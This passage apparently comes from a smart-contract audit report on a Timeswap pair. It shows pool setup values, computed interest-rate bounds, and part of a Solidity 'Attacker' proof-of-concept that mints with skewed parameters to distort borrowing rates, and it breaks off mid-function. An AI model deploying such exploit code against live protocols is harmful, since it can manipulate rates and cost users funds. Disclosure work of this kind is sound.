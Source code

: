 ```
    }
}

```
Here are the initialization values:
```
    uint112 xIncrease = 5_000 ether;
    uint112 yIncrease = (APR*xIncrease)/(SEC_PER_YEAR*100);
    uint112 zIncrease = (5*xIncrease)/3; //Static 167% CDP
```
With this configuration, I've calculated the interest rate to borrow on this pool using the functions defined here: https://timeswap.gitbook.io/timeswap/deep-dive/borrowing
to  be:
```
yMax: 4.7533146923118e-06
Min Interest Rate: 0.009374999999999765
Max Interest Rate: 0.14999999999999625
zMax: 1666.6666666666667

```
Around 1% to 15%. 

Then, the attacker comes along (see line containing `let atakcontrak` and after). The attacker deploys the following contract:
```
pragma solidity =0.8.4;

import "hardhat/console.sol";
import {ITimeswapMintCallback} from "./interfaces/callback/ITimeswapMintCallback.sol";
import {IPair} from "./interfaces/IPair.sol";
import {IERC20} from '@openzeppelin/contracts/token/ERC20/IERC20.sol';
interface TestTokenAtt is IERC20{
    function mmint(uint256 amount) external;
}

contract Attacker is ITimeswapMintCallback {

    uint112 constant SEC_PER_YEAR = 31556926;
    TestTokenAtt internal jtok;
    TestTokenAtt internal usdc;

constructor(address _jtok, address _usdc){
    jtok = TestTokenAtt(_jtok);
    jtok.mmint(10_000 ether);
    usdc = TestTokenAtt(_usdc);
    usdc.mmint(10_000 ether);
}

function timeswapMint(uint maturity, uint112 APR, address pairAddress) public{
    uint256 maturity = maturity;
    console.log("Maturity: ", maturity);
    address liquidityTo = address(this);
    address dueTo = address(this);
    uint112 xIncrease = 3;
    uint112 yIncrease = 1000000000000000;
    uint112 zIncrease = 5; //Static 167% CDP
    IPair(pairAddress).mint(maturity, liquidityTo, dueTo, xIncrease, yIncrease, zIncrease, "");
}


function timeswapMintCallback(
        uint112 assetIn,
        uint112 collateralIn,
        bytes calldata data
```